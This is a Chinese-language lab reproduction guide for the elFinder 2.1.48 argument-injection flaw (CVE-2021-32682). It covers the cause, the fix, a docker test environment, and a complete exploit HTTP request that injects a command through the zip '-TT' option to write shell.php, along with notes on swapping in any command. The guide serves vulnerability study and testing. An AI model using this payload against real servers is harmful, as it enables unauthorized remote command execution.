




elFinder ZIP 参数与任意命令注入（CVE-2021-32682）¶
elFinder是一个基于PHP、Jquery的开源文件管理系统。
在elFinder 2.1.48及以前的版本中，存在一处参数注入漏洞。攻击者可以利用这个漏洞在目标服务器上执行任意命令，即使是最小化安装的elFinder。
这个漏洞的原因除了参数注入外，还有默认情况下的未授权访问，因此我们可以对elFinder增加权限校验，避免任意用户操作服务器上的文件，进而避免被执行任意命令。当然，升级版本到2.1.49及以上也是必要的。
参考链接：
- https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities
- https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
- https://xz.aliyun.com/t/10739
漏洞环境¶
执行如下命令启动一个elFinder 2.1.48版本服务器：
docker compose up -d
服务启动后，访问http://your-ip:8080即可查看到elFinder的文件管理页面。
漏洞复现¶
复现这个漏洞首先需要用elFinder提供的功能，创建两个文件。
先创建一个普通的文本文件1.txt：

然后右键这个文件，对其进行打包，打包后的文件命名为2.zip：

最后我们获得1.txt和2.zip两个文件：

然后，发送如下数据包来执行任意命令：
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
这个数据包中，你可以看到三个重要的参数：
name， 值为-TvTT=id>shell.php # a.zip，你可以修改id>shell.php为任意你想执行的命令targets[0]， 值为l1_MS50eHQ，l1意思是第一个文件系统（默认值，不用修改），MS50eHQ是1.txt的base64编码targets[1]， 值为l1_Mi56aXA，l1意思是第一个文件系统（默认值，不用修改），Mi56aXA是2.zip的base64编码
虽然这个数据包发送后会返回错误信息，但实际上其中指定的命令已经被成功执行，可以访问http://your-ip:8080/files/shell.php查看执行的结果：
